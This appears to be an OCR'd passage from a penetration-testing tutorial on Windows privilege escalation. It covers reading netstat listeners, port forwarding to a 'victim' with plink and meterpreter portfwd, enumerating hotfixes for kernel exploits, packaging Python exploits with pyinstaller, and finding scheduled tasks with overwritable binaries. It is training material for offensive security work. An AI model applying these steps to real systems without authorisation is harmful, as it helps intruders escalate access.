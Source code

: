 Look for **LISTENING/LISTEN**. Compare that to the scan you did from the outside.  
Does it contain any ports that are not accessible from the outside?

If that is the case, maybe you can make a remote forward to access it.

```
# Port forward using plink
plink.exe -l root -pw mysecretpassword 192.168.0.101 -R 8080:127.0.0.1:8080

# Port forward using meterpreter
portfwd add -l <attacker port> -p <victim port> -r <victim ip>
portfwd add -l 3306 -p 3306 -r 192.168.1.101
```

So how should we interpret the netstat output?

**Local address 0.0.0.0**  
Local address 0.0.0.0 means that the service is listening on all interfaces. This means that it can receive a connection from the network card, from the loopback interface or any other interface. This means that anyone can connect to it.

**Local address 127.0.0.1**  
Local address 127.0.0.1 means that the service is only listening for connection from the your PC. Not from the internet or anywhere else. **This is interesting to us!**

**Local address 192.168.1.9**  
Local address 192.168.1.9 means that the service is only listening for connections from the local network. So someone in the local network can connect to it, but not someone from the internet. **This is also interesting to us!**

## Kernel exploits

Kernel exploits should be our last resource, since it might but the machine in an unstable state or create some other problem with the machine.

**Identify the hotfixes/patches**

```bash
systeminfo
# or
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

**Python to Binary**

If we have an exploit written in python but we don't have python installed on the victim-machine we can always transform it into a binary with pyinstaller. Good trick to know.

## Scheduled Tasks

Here we are looking for tasks that are run by a privileged user, and run a binary that we can overwrite.

```
schtasks /query /fo LIST /v
```
